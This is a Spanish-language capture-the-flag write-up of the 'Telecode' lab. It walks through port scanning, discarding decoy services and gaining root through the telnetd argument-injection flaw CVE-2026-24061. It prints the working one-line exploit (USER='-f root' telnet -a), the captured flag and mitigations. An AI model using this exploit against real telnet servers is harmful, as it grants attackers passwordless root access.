








## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

---

## Resumen del Ataque

Telecode es un reto centrado íntegramente en **una sola vulnerabilidad crítica muy reciente**: CVE-2026-24061, un bypass de autenticación en GNU InetUtils `telnetd` (versiones 1.9.3 a 2.7), divulgado en enero de 2026 con CVSS 9.8. A pesar de una superficie de ataque aparentemente amplia (FTP, SSH, Telnet, HTTP, SMB), la propia página web del reto advierte explícitamente: _"No todos los servicios son el camino correcto"_ — un indicio directo de que la mayoría de los puertos abiertos son señuelos (rabbit holes) y que la vulnerabilidad real está en un único servicio.

FTP anónimo estaba deshabilitado, SMB solo exponía `IPC$` sin acceso, y la web no tenía contenido explotable ni tras fuzzing. El vector real era **Telnet**: el demonio `telnetd` de GNU InetUtils pasa la variable de entorno `USER` (negociada vía la opción de protocolo `NEW-ENVIRON`, RFC 1572) directamente como argumento de línea de comandos al binario `/usr/bin/login`, sin sanitizar. Enviando `USER='-f root'`, el demonio ejecuta literalmente `login -f root`, donde `-f` indica a `login` que asuma que el usuario ya está autenticado — otorgando una **shell de root inmediata, sin contraseña y sin ninguna etapa de post-explotación**.

**Vector de compromiso:** Argument Injection vía negociación de entorno de Telnet (CVE-2026-24061) → bypass total de autenticación → shell root directa.

---

## Técnicas Usadas

|Fase|Técnica|Herramienta|
|---|---|---|
|Reconocimiento|Escaneo de puertos completo (TCP SYN)|`nmap -p- -sS`|
|Reconocimiento|Detección de versiones y scripts por defecto|`nmap -sC -sV`|
|Enumeración web|Revisión de código fuente y descubrimiento de directorios|Navegador / `dirsearch`|
|Enumeración FTP|Verificación de login anónimo (descartado)|`ftp`|
|Enumeración SMB|Mapeo de recursos compartidos vía sesión NULL (descartado)|`smbmap`|
|Explotación|Identificación de CVE crítico reciente sobre el servicio Telnet|Investigación de CVE / OSINT|
|Explotación|Bypass de autenticación por inyección de argumentos vía protocolo Telnet|CVE-2026-24061|
|Explotación|Envío de variable de entorno maliciosa (`USER='-f root'`) mediante negociación `NEW-ENVIRON`|`telnet -a`|

---

## Desarrollo

### 1. Reconocimiento de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Detección de servicios y versiones

```
nmap -p 21,22,23,80,139,445 -sC -sV -oN allports 172.17.0.2
```



Hallazgos clave: `vsftpd 3.0.5`, `OpenSSH 8.2p1`, **`Openwall GNU/*/Linux telnetd`**, `Apache 2.4.41` con el título _"TELECODE - Python Security Academy"_, y `Samba smbd 4`.

### 3. Enumeración web

```
http://172.17.0.2/
```



La página del reto declara explícitamente el objetivo del laboratorio y advierte: _"No todos los servicios son el camino correcto"_. Código fuente sin hallazgos. `dirsearch` sin resultados relevantes.

### 4. Descarte de vectores señuelo (FTP y SMB)

```
ftp 172.17.0.2
```



```
smbmap -H 172.17.0.2
```



Ambos servicios quedan descartados como vector de entrada — consistente con la advertencia de la propia web del reto.

### 5. Identificación del vector real: Telnet

```
telnet 172.17.0.2
```



El banner confirma `Openwall GNU/*/Linux telnetd`. Investigando vulnerabilidades recientes sobre GNU InetUtils telnetd se identifica **CVE-2026-24061** (CVSS 9.8, divulgada el 20 de enero de 2026): un bypass de autenticación por **inyección de argumentos**, donde el demonio pasa la variable de entorno `USER` —negociada mediante la opción de protocolo Telnet `NEW-ENVIRON` (RFC 1572)— directamente como argumento a `/usr/bin/login` sin sanitizar.

### 6. Explotación — CVE-2026-24061

Enviando la variable de entorno `USER` con el valor `-f root`, el demonio termina ejecutando `login -f root`. El flag `-f` de `login` indica que el usuario ya está autenticado, **saltándose la verificación de contraseña por completo**:

```bash
USER='-f root' telnet -a 172.17.0.2
```

```
root@telecode:~# whoami
root
```



Acceso root inmediato, sin ninguna etapa de escalada de privilegios adicional.

### 7. Captura de la flag

```
cd /root
ls
cat flag.txt
```



**Flag:** `TELECODE{y0u_pwn3d_th3_l3g4cy_g4t3w4y}`

---

## Lecciones Aprendidas

- **Una superficie de ataque amplia no significa múltiples vectores viables.** De 6 servicios expuestos, solo uno era explotable — la propia máquina lo advertía explícitamente, un recordatorio de que el reconocimiento debe evaluar cada servicio por mérito propio, no asumir que "más puertos abiertos" implica más caminos de entrada.
- **Telnet como protocolo heredado sigue representando riesgo real en 2026**, no solo por transmitir credenciales en texto claro, sino porque su ecosistema de software (GNU InetUtils) sigue recibiendo vulnerabilidades críticas nuevas — CVE-2026-24061 llevaba potencialmente más de una década de exposición silenciosa (el código vulnerable data de un commit de 2015) antes de ser descubierta.
- **Las vulnerabilidades de "inyección de argumentos" son una clase de fallo recurrente y de bajo esfuerzo de explotación** cuando un programa concatena entrada no confiable (aquí, una variable de entorno negociada por protocolo) directamente en la línea de comandos de otro binario, sin distinguir datos de opciones (`-f`, `--flag`, etc.).
- **Un CVE muy reciente sobre un servicio con un banner reconocible es una señal fuerte a investigar de inmediato** en cualquier metodología de reconocimiento: cuando un banner de versión coincide con un CVE crítico publicado en los meses previos al pentest, ese suele ser el vector intencionado.
- **La explotación no siempre requiere herramientas complejas.** Aunque existen PoCs dedicados en Python que implementan manualmente la negociación `NEW-ENVIRON`, en este caso una variable de entorno (`USER`) combinada con la opción `-a` del cliente `telnet` estándar bastó para desencadenar la negociación vulnerable.

---

## Medidas de Mitigación

|Hallazgo|Riesgo|Recomendación|
|---|---|---|
|GNU InetUtils telnetd vulnerable a CVE-2026-24061 (versiones 1.9.3–2.7)|Crítico|Actualizar a una versión de InetUtils que incluya el parche publicado el 20 de enero de 2026, o eliminar `telnetd` por completo del sistema.|
|Servicio Telnet expuesto en la red|Crítico|Sustituir Telnet por SSH en cualquier entorno; Telnet no debería estar habilitado en sistemas modernos salvo necesidad estrictamente justificada y aislada.|
|Ausencia de segmentación/restricción de acceso al puerto 23|Alto|Si Telnet debe permanecer activo por alguna razón operativa, restringir el acceso mediante `hosts.allow`/`hosts.deny` o reglas de firewall a IPs de confianza exclusivamente.|
|Falta de monitorización de sesiones Telnet anómalas|Medio|Auditar accesos Telnet que resulten en sesiones root sin eventos de autenticación correspondientes — es un indicador directo de explotación de este CVE.|
|Recursos SMB con sesión NULL habilitada (aunque sin impacto directo en este reto)|Bajo-Medio|Deshabilitar sesiones NULL en Samba (`restrict anonymous`) como buena práctica general, independientemente de si exponen datos en el caso concreto.|